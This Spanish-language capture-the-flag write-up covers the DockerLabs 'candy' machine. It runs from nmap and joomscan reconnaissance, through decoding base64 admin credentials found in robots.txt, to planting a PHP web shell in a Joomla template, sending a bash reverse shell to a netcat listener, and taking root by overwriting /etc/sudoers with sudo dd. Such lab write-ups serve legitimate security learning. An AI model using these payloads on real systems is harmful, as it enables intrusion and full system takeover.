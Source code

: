 # candy

Máquina candy [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil

![dock](../../../maquina-candy/img/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Thu Aug 29 20:00:40 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-29 20:00:41 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 17 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/ 
|_/plugins/ /tmp/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 20:00:56 2024 -- 1 IP address (1 host up) scanned in 16.16 seconds
```

Como vemos solo esta abierto el puerto 80 corriendo apache, por lo que podemos intuir que la intrusion es mediante uan reverse shell.

**PUERTO 80:**

![80](../../../maquina-candy/img/80.png)

Como vemos parece haber un `joomla`, por lo que podemos usar la herramienta `joomscan` de la siguiente manera:

```css
joomscan -u http://172.17.0.2/
```

```css
[H[2J[33m
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
[31m			(1337.today)[0m
   
    --=[[34mOWASP JoomScan[0m
    +---++---==[Version : [31m0.0.7
[0m    +---++---==[Update Date : [[31m2018/09/23[0m]
    +---++---==[Authors : [31mMohammad Reza Espargham , Ali Razmjoo[0m
    --=[Code name : [31mSelf Challenge[0m
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

[34m[34mProcessing http://172.17.0.2/ ...


[34m
[+] FireWall Detector
[31m[++] Firewall not detected
[34m[34m
[+] Detecting Joomla Version
[33m[++] Joomla 4.1.2
[34m[34m
[+] Core Joomla Vulnerability
[31m[++] Target Joomla core is not vulnerable
[34m[34m
[+] Checking apache info/status files
[31m[++] Readable info/status files are not found
[34m[34m
[+] admin finder
[33m[++] Admin page : http://172.17.0.2/administrator/
[34m[34m
[+] Checking robots.txt existing
[33m[++] robots.txt is found
path : http://172.17.0.2/robots.txt 

Interesting path found from robots.txt
http://172.17.0.2/joomla/administrator/
http://172.17.0.2/administrator/
http://172.17.0.2/api/
http://172.17.0.2/bin/
http://172.17.0.2/cache/
http://172.17.0.2/cli/
http://172.17.0.2/components/
http://172.17.0.2/includes/
http://172.17.0.2/installation/
http://172.17.0.2/language/
http://172.17.0.2/layouts/
http://172.17.0.2/un_caramelo
http://172.17.0.2/libraries/
http://172.17.0.2/logs/
http://172.17.0.2/modules/
http://172.17.0.2/plugins/
http://172.17.0.2/tmp/

[34m[34m
[+] Finding common backup files name
[31m[++] Backup files are not found
[34m[34m
[+] Finding common log files name
[31m[++] error log is not found
[34m[34m
[+] Checking sensitive config.php.x file
[31m[++] Readable config files are not found
[34m[33m

Your Report : reports/172.17.0.2/
[0m
```

Como vemos hay varias cosas interesantes, pero luego de revisar, lo único que nos va a ayudar es el "robots.txt" ya que si entramos desde el navegador y vemos la última línea veremos estas credenciales:

```css
admin:c2FubHVpczEyMzQ1
```

que como vemos están en base64, por lo que simplemente vamos al terminal y ejecutamos:

```css
echo 'c2FubHVpczEyMzQ1' | base64 -d
```

```css
sanluis12345
```

Por lo que ya tenemos credenciales: `admin:sanluis12345`. Para introducirlas tenemos que ir a `172.17.0.2/administrator`.

## INTRUSION

Ahora continuaremos a enviarnos una reverse shell, para hacerlo vamos a `system > Templates > Site Templates > Cassiopeia Details and Files`. Una vez ahí editaremos el index.php borrando todo y solo dejando el siguiente codigo:

```php
<?php
       system($_GET['cmd']);
?>
```

Lo guardamos y volvemos a `http://172.17.0.2` pero ponemos lo siguiente:

```css
http://172.17.0.2/?cmd=bash -c 'bash -i >%26 /dev/tcp/<IP>/<PUERTO> 0>%261'
```

pero antes de enviarlo escuchamos con el netcat de la siguiente manera:

```css
nc -nlvp 443 # Elije el puerto que quieras
```

## ESCALADA DE PRIVILEGIOS

Antes de continuar primero haremos el tratamiento de la tty, para hacerlo debemos ejecutar estos comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm" y nuevamente enter
export TERM=xterm && export SHELL=bash && stty rows 33 columns 128
```

Ahora si esta todo listo para escalar de manera correcta.

#### www-data

Siendo el usuario www-data podemos ejcutar `sudo -l` pero no nos sirve de nada, entonces luego de buscar, veo que hay un archivo en `/var/backups/hidden/otro_caramelo.txt` y si lo leemos tiene esto:

```css


                          _____             _             _           _                                           
                         |  __ \           | |           | |         | |                                          
  ______ ______ ______   | |  | | ___   ___| | _____ _ __| |     __ _| |__  ___     ______ ______ ______ ______   
 |______|______|______|  | |  | |/ _ \ / __| |/ / _ \ '__| |    / _` | '_ \/ __|   |______|______|______|______|  
                         | |__| | (_) | (__|   <  __/ |  | |___| (_| | |_) \__ \                                  
                         |_____/ \___/ \___|_|\_\___|_|  |______\__,_|_.__/|___/                                  



Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>



  ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ 
 |______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|

```

Lo único que nos sirve es la contraseña del usuario luisillo que es "luisillosuperpassword", por lo que escalamos ejecutando `su luisillo` y poniendo la contraseña.

#### luisillo

Si ejecutamos `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for luisillo on ee406841b794:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on ee406841b794:
    (ALL) NOPASSWD: /bin/dd
```

Por lo que para escalar podemos ejcutar esto:

```css
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Una vez hecho esto ya tendremos permisos root para todos los comandos, y solo escalamos ejecutando `sudo su` y poniendo la contraseña de luisillo.

![root](../../../maquina-candy/img/root.png)

Gracias por leer.
